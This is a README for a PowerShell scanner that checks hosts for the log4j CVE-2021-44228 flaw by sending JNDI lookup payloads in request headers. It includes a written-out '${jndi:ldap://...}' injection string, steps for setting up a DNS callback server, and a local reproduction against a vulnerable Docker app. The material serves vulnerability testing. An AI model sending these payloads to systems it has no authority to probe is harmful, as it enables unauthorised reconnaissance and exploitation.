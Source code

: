 # CHAPTER8 - log4j PowerShell Checker

** added scan_for_apache.ps1 to look for servers running Apache, Apache Tomcat 

** added scan_everything_for_apache.ps1 to look for anything running Apache, Apache Tomcat 

**[CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228)**

Perform a scan of a single host (using Powershell) to see if it's vulnerable for the above-mentioned CVE.
The scripts inject a payload into a request header like `User-Agent`. Important to note is that this is not sufficient for all applications! For example, VMware vCenter is vulnerable because of request header `X-Forwarded-For`. So please do some more research into what the vulnerability exactly is for the software that you're testing and adapt the script where needed.

_Updates_ 

* Added outgoing proxy support.
* Added `log4j_ps_checker_vcenter.ps1` for VMware vCenter Server.
	- For VMware vRealize and VMware NXS-T: instead of using these scripts, just add the payload to username field like this: `${jndi:ldap://mytestrecord.log4jdnsreq.example.com}`

---

## Usage

* Edit the `$NameServer` parameter inside the script on line 16
* Run it like this: `.\log4j_ps_checker.ps1 https://vulnerableserver:8443`

---

## Setting up a NameServer

1. Create a new (A) subdomain record for your domain, like `log4jcheck.example.com`; and
2. Point it to the IP of your freshly provisioned Ubuntu VPS.
3. Create another record, but this time an NS record pointing to the first record:

`log4jdnsreq 3600 IN  NS log4jcheck.example.com.`

4. Install bind on your Ubuntu VPS: `$ sudo apt install bind9`
5. Add the following to `/etc/bind/named.conf.options`:

```
    recursion no;
    allow-transfer { none; };
```

6. Configure logging by adding the following to `/etc/bind/named.conf.local`:

```
logging {
	channel querylog {
		file "/var/log/named/query.log";
		severity debug 3;
		print-time yes;
	};
	category queries { querylog;};
};
```

7. Create the log file from step 6 and give it the right permissions
	- `$ sudo mkdir /var/log/named && sudo touch /var/log/named/query.log`
	- `$ sudo chown bind:bind /var/log/named/query.log && sudo chmod 660 /var/log/named/query.log`
8. Start bind: `$ sudo systemctl start bind9`
9. Test if it works:
	- Run on your local machine: `dig testing.log4jdnsreq.example.com`
	- Check if you see the request coming in on your VPS in the file: `/var/log/named/query.log`

---

## (optional) Reproducing Locally

Want to test this first before you run it against a production system? Sure!

Check out [christophetd's](https://github.com/christophetd/log4shell-vulnerable-app) vulnerable app.
Be sure to have Docker installed. Then:

`docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`

You should see an error message indicating that a remote lookup was attempted but failed:

```
2021-12-11 19:40:12,224 http-nio-8080-exec-8 WARN Error looking up JNDI resource [ldap://check1.log4jdnsreq.example.com/test.class]. javax.naming.CommunicationException: check1.log4jdnsreq.example.com:389 [Root exception is java.net.UnknownHostException: check1.log4jdnsreq.example.com]
```

**Important**: for this test to work, you should change `User-Agent` to `X-Api-Version` on line 63 (`$JsonHeader`) as christophetd's software only works with that specific header.

---

## Credits

Thanks to [@NorthwaveSecurity](https://github.com/NorthwaveSecurity) for providing me with the Python implementation and to [@christophetd](https://github.com/christophetd) for providing me with the PoC docker image.

* https://github.com/NorthwaveSecurity/log4jcheck
* https://github.com/christophetd/log4shell-vulnerable-app
* https://www.lunasec.io/docs/blog/log4j-zero-day/
* https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6

## License

Open-sourced software licensed under the MIT license.

## Disclaimer

This script has been written specifically for Windows environments. Do not try to use it with custom ports of PowerShell.
